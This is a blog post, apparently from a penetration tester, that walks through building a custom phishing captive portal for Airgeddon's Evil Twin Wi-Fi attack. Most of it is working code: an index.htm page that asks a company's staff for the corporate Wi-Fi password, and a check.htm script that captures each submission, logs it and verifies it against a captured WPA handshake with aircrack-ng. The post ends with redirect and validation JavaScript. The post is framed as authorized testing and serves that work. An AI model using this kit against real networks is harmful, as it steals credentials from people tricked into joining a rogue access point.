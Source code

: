 ```yaml
---
title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
excerpt: "A summarized walkthrough to custom the captive portal in Wi-Fi Evil Twin attacks."
categories:
    - Penetration-Test
tags:
    - Penetration-Test
toc: true
show_date: true
classes: wide
---
```


# Introduction
During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue access point and to trick users to connect the fake one.

# Custom Portal Plugin in Airgeddon
## Installation

Download the script `customportals.sh` on [https://github.com/KeyofBlueS/airgeddon-plugins](https://github.com/KeyofBlueS/airgeddon-plugins) and put it in `/usr/share/airgeddon/plugins`. Also, create a folder called `custom_portals` which will store all your customized captive portal template.

```sh
┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
└─# ls -al
total 96
drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
```

# Working on the Template
## index.htm
`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.

```sh
#!/usr/bin/env bash
echo '<!DOCTYPE html>'
echo '<html>'
echo -e '	<head>'
echo -e '		<meta name="viewport" content="width=device-width"/>'
echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
echo -e '		<script type="text/javascript" src="portal.js"></script>'
echo -e '	</head>'
echo -e '	<div class="content">'
echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
echo -e '			<h1>Wi-Fi Access</h1>'
echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
echo -e '			<input type="submit" value="Connect" class="button"/>'
echo -e '		</form>'
echo -e '		<p class="warning">Only authorized persons are allowed to access the corporate network of ABC Company.</p>'
echo -e '	</div>'
exit 0
```

You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.

## check.htm

`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.

```sh
POST_DATA=$(cat /dev/stdin)
if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
	POST_DATA=${POST_DATA#*=}
	password=${POST_DATA/+/ }
	password=$(printf '%b' "${password//%/\\x}")
fi
```

Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.

```sh
if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
	echo "${password}" >\
	"${tmpdir}${webdir}${currentpassfile}"
	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
```

Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.

```sh
if [ "$?" = "0" ]; then
	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be re-established in a few moments'
	et_successful=1
else
	echo "${password}" >>\
	"${tmpdir}${webdir}${attemptsfile}"
	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
	et_successful=0
fi
```

## portal.css

You could customize the CSS content here.

## portal.js

In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.

```sh
if [ ${et_successful} -eq 1 ]; then
    exit 0
else
    echo '<script type="text/javascript">'
    echo -e '\tsetTimeout("redirect()", 3500);'
    echo '</script>'
    exit 1
fi
```

The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.

```javascript
function redirect() {
    document.location = "index.htm";
}
```

Meanwhile, some response corresponding to the form could be included here, such as password length validation.

```javascript
(function() {
    var onLoad = function() {
        var formElement = document.getElementById("loginform");
        if (formElement != null) {
            var validateForm = function(event) {
                event.preventDefault();
                var password = document.getElementById("password").value;
                if (password === "") {
                    alert("Please enter the Wi-Fi password.");
                } else if (password.length < 8) {
                    alert("The password must be at least 8 characters.");
                } else {
                    formElement.submit();
                }
            };
            formElement.addEventListener("submit", validateForm);
        }
    };

    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
})();
```

# The Demo Captive Portal

Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.

```sh
┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
└─# ls -al
total 48
drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
```

After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.

![](/assets/images/2025-09-06-02.png)


![](/assets/images/2025-09-06-03.png)

# Captive Portal Sample

You may refer to my sample on [https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo](https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo) and develop your own template further!

# Resources

https://zimperium.com/glossary/evil-twin-attacks